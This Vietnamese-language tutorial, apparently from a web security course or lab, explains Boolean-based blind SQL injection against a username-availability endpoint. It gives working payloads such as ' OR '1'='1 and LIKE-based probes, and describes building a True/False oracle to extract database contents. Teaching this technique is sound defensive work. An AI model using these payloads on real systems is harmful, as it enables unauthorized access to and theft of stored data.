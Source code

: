 Dựa vào lỗi trả về, rất có thể truy vấn SQL được thực hiện trên backend có dạng:

```sql
SELECT Username FROM Users WHERE Username = '<u>'
```

Với truy vấn này, chúng ta có thể thử payload:

```sql
' OR '1'='1
```

Payload này sẽ làm cho truy vấn trở thành:

```sql
SELECT Username FROM Users WHERE Username = '' OR '1'='1'
```

Trong trường hợp này, truy vấn luôn đúng và máy chủ sẽ nghĩ rằng tên người dùng đã tồn tại, trả về kết quả **status: taken**.

### Khai Thác Boolean-based Blind SQL Injection

Vì phản hồi của máy chủ chỉ có hai trạng thái: **status: available** và **status: taken**, chúng ta có thể coi đây là một lỗ hổng **Boolean-based Blind SQL Injection**. Chúng ta sẽ phải sử dụng các câu hỏi **Yes/No** (có/không) để suy luận dữ liệu từ cơ sở dữ liệu.

#### Ví dụ về Khai Thác

Sử dụng công cụ **BurpSuite**, chúng ta có thể gửi yêu cầu với payload sau:

```sql
' OR (SELECT COUNT(*) FROM Users WHERE Username LIKE 'a%') > 0--
```

Nếu máy chủ trả về **status: taken**, điều này cho thấy có ít nhất một tên người dùng bắt đầu bằng chữ **'a'**. Chúng ta có thể tiếp tục thử nghiệm với các ký tự khác và xây dựng một tập lệnh tự động để trích xuất dữ liệu từ cơ sở dữ liệu thông qua các truy vấn Boolean-based Blind SQL Injection.

---
4
### **Thiết kế "Oracle" để khai thác Blind SQL Injection**

**Lý thuyết**

Khi phát hiện một **Blind SQL Injection**, mục tiêu đầu tiên là thiết kế một cơ chế để gửi truy vấn và nhận phản hồi xác định truy vấn có giá trị **`True`** hoặc **`False`**. 

Cách thực hiện:
- Giả sử bạn biết tài khoản **`maria`** tồn tại trong cơ sở dữ liệu. 
- Bạn có thể chèn truy vấn như sau: **`maria' AND q-- -`**, với **`q`** là truy vấn bạn muốn kiểm tra. Nếu:
  - Kết quả là **`True`**, máy chủ sẽ trả về trạng thái **`status:taken`** (nghĩa là tài khoản đã tồn tại).
  - Kết quả là **`False`**, máy chủ trả về **`status:available`** (nghĩa là tài khoản không tồn tại).

Ví dụ:
- Để kiểm tra **`1=1`**:
  - Inject **`maria' AND 1=1-- -`** → Máy chủ trả về **`status:taken`** (kết quả **True**).
- Để kiểm tra **`1=0`**:
  - Inject **`maria' AND 1=0-- -`** → Máy chủ trả về **`status:available`** (kết quả **False**).
